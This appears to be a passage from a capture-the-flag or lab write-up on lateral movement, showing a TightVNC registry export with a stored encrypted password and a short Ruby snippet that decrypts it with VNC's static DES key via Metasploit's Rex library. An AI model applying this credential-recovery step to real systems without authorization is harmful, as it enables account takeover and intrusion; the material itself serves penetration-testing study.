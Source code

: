 ## Lateral movement to interactive shell
When viewing the file there is an encrypted password.
```bash
cat VNC\ Install.reg 
��Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
"BlockLocalInput"=dword:00000000
"IpAccessControl"=""
"RfbPort"=dword:0000170c
"HttpPort"=dword:000016a8
"DisconnectAction"=dword:00000000
"AcceptRfbConnections"=dword:00000001
"UseVncAuthentication"=dword:00000001
"UseControlAuthentication"=dword:00000000
"RepeatControlAuthentication"=dword:00000000
"LoopbackOnly"=dword:00000000
"AcceptHttpConnections"=dword:00000001
"LogLevel"=dword:00000000
"EnableFileTransfers"=dword:00000001
"RemoveWallpaper"=dword:00000001
"UseD3D"=dword:00000001
"UseMirrorDriver"=dword:00000001
"EnableUrlParams"=dword:00000001
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
"AlwaysShared"=dword:00000000
"NeverShared"=dword:00000000
"DisconnectClients"=dword:00000001
"PollingInterval"=dword:000003e8
"AllowLoopback"=dword:00000000
"VideoRecognitionInterval"=dword:00000bb8
"GrabTransparentWindows"=dword:00000001
"SaveLogToAllUsersPath"=dword:00000000
"RunControlInterface"=dword:00000001
"IdleTimeout"=dword:00000000
"VideoClasses"=""
"VideoRects"=""

"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```
Decrypting with the static key.
```ruby
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"  
require 'rex/proto/rfb'  
Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
```
